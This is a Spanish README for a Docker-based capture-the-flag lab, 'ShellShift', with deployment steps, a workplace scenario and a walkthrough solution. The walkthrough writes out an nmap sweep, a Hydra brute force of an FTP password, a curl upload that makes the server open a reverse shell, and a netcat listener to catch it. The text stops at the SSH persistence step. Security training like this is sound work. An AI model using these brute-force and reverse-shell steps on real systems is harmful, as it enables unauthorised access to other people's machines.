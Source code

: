 
# ShellShift

- [1. Instalación y despliegue](#instalación-y-despliegue)
- [1.1. Despliegue de contenedor automático](#despliegue-de-contenedor-automático)
- [1.2. Despliegue de contenedor manual](#despliegue-de-contenedor-manual)
- [2. Descripción de ejercicio](#descripción-de-ejercicio)
- [3. Solución de ejercicio](#solución-de-ejercicio)

## 1. Instalación y despligue

Para desplegar el laboratorio es necesario tener [Docker](http://docs.docker.com/get-docker/) instalado. Una vez instalado podremos descargar o construir la imagen.

### 1.1. Despliegue de contenedor automático

Para desplegar el contenedor automáticamente, bastará con ejecuta rel siguiente comando:

```bash
docker exec -d --name shellshift-conotainer -p [Host-Port1]:21 -p [Host-Port2]:22 -p [Host-Port-range]:40000-40010 kradbyte/shellshift:latest
```

Asegúrate de reemplazar `Host-Port1`, `Host-Port2` y `Host-Port-range` con tus puertos para los servicios FTP, SSH y FTP Passive, respectivamente, en caso de querer utilizar puertos personalizados.

### 1.2. Despliegue de contenedor manual

Para desplegar el contenedor manualmente primero deberemos clonar el repositorio y construir la imagen:

```bash
git clone https://github.com/kradbyte/elementals-labs.git
docker build -t kradbyte/shellshift:latest elementals-labs/3-ShellShift
```

Una vez tengamos la imagen construida podremos desplegar el contenedor:

```bash
docker run -d --name shellshift-container -p [Host-port1]:21 -p [Host-port2]:22 -p[Host-port-range]:400000-40010 kradbyte/shellshift:latest
```

Asegúrate de reemplazar `Host-Port1`, `Host-Port2` y `Host-Port-range` con tus puertos para los servicios FTP, SSH y FTP Passive, respectivamente, en caso de querer utilizar puertos personalizados.

# 2. Descripción de ejercicio

*Contexto:* Te encuentras en una encrucijada en tu puesto de trabajo en el departamento de Atención al Cliente de una empresa reconocida. Hace una semana, desafortunadamente perdiste un archivo crucial que contenía tanto una llave de acceso como el enlace a una reunión empresarial importante programada para la próxima semana. La política interna de la empresa es implacable con los errores, y temes que admitir tu descuido pueda costarte el puesto. Afortunadamente, has descubierto que las credenciales perdidas están almacenadas en el servidor de la empresa. No tienes contactos en el departamento de TI, pero el destino te ha sonreído al encontrar un correo electrónico desechado que podría ser tu salvación:

> Good morning, Pato. I will be glad to assist you with your request. Please, provide your IP address by uploading it to the "ips" folder, naming the file "PatoIP.txt". Remember to connect as a "guest" user. Best regards.

*Target:* Recupera el archivo perdido siguiendo las pistas proporcionadas. Este viaje te llevará a interactuar con un servicio FTP, donde deberás compartir tu IP y puerto para obtener acceso a la consola del servidor. 

*Steps:*
1. Identificar servicio FTP
2. Acceder al servicio FTP
3. Compartir IP y puerto de escucha
4. Esperar conexión al servidor
4. Buscar archivo perdido: El archivo que necesitas recuperar tiene una extensión “.sh” y un tamaño de 15 KB.

*Grants:*
1. IP de Windows vs. WSL: Ten en cuenta que las direcciones IP pueden variar entre Windows y WSL. Asegúrate de proporcionar la IP correcta para evitar complicaciones.
2. Para facilitar tu trabajo y evitar tener que repetir pasos, considera establecer algún método para ganar un acceso más estable.
3. Todos los servicios corren entre los puertos 2100-2300.

*Tools:*
FTP, Curl, NetCat, Hydra, Nmap, SSH

# 3. Solución de ejercicio

## 3.1. Identificación de servicio FTP

Si se configuraron los puertos para que el servicio FTP corriera por un puerto distinto al 21, se debe utilizar alaguna herramienta de escaneo, como Nmap, para descubrir dicho servicio.

```bash
nmap -sn 192.168.0.0/24
```

## 3.2. Crackeo de credenciales FTP

Una vez hayamos ubicado el servicio FTP, el correo que se menciona en la descripción del ejercicio nos menciona que podemos subir un archivo al sevidor, pero primero deberemos descubrir la contraseña. Para eso podemos utilizar herramientas como *[Hydra](https://www.kali.org/tools/hydra/)* que nos ayudarán a descubrir las credenciales. Si prestamos atención al correo sabremos que el usuario del servicio es **guest**, por lo que solo deberemos descubrir la contraseña. Podemos utilizar algún diccionario de [SecList](https://github.com/danielmiessler/SecLists/blob/master/Passwords/500-worst-passwords.txt).

```bash
hydra -l guest -P /ruta/a/tu/diccionario.txt ftp://ServerIP:ServerPort
```

No olvides reemplazar `ServerIP` y `ServerPort` con la IP y el puerto del servidor por donde corre el servicio de FTP, así como la ruta de tu diccionario.

## 3.3. Suplantación de identidad

Una vez hayamos obtenido las credenciales del servicio FTP deberemos enviar nuestra IP y nuestro puerto de escucha, para que el servidor nos envíe una consola interactiva como si fuésemos Pato. Podemos utilizar FTP o curl para enviar el archivo:

```bash
curl -T <(echo "ClientIP:ClientPort") ftp://UserServer:PassServer@ServerIP:ServerPort/ips/PatoIP.txt
```

No olvides reemplazar `ClientIP` y `ClientPort` por la IP y el puerto de Host, así como `UserServer` y `PassServer` por la IP y el puerto del Servidor.

## 3.4. Reverse Shell

Cuando hayamos enviado nuestra IP al servidor deberemos ponernos en escucha para recibir la consola interactiva. Para ello podemos utilizar alguna herramienta como NetCat.

```bash
nc -lnvp 4444
```

## 3.5. Conexiones perdurables

Cuando el servidor nos entregue la consola interactiva podremos buscar la flag del laboratorio, pero la conexión que tenemos actualmente no será perdurable ya que cada dos minutos perderemos la conexión y deberemos repetir el proceso de enviar nuestra IP al servidor para conectarnos nuevamente, por lo que deberemos buscar una conexión persistente para evitar este inconveniente. Para ello utilizaremos SSH.

